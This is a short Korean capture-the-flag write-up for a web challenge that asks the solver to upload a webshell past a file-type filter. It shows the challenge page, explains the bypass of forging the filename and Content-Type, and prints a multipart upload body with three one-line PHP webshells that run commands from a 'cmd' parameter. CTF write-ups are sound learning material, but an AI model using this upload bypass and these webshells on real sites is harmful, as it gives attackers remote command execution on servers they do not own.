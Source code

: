 # 43

## 문제

```html
<html>
<head>
<title>Challenge 43</title>
</head>
<body>
<hr>
You must upload webshell.<br><br>
hint : file type
<hr>

<form method=post enctype="multipart/form-data" action=index.php>
<input name=file type=file><input type=submit>
</form>
</body>
</html>
```

웹셸을 올려야 하는 문제인 것 같다. 그런데 여러가지 스크립트 확장자 파일 업로드를 막고 그림 파일만 받는다.

## 풀이

POST로 파일을 업로드 할때 Filename이나 Content-Type을 변조하면 파일 타입 필터링을 통과할 수 있다.

```
------WebKitFormBoundaryO1ur6p8ReIGN7xRi
Content-Disposition: form-data; name="file"; filename="shell.png"
Content-Type: image/png

<?php system($_GET['cmd']); ?>
<?php passthru($_REQUEST['cmd']); ?>
<?php echo exec($_POST['cmd']); ?>
------WebKitFormBoundaryO1ur6p8ReIGN7xRi--
```

요기서 `filename`에서 확장자를 `php`로 바꿔줘서 보내면 문제가 풀린다.
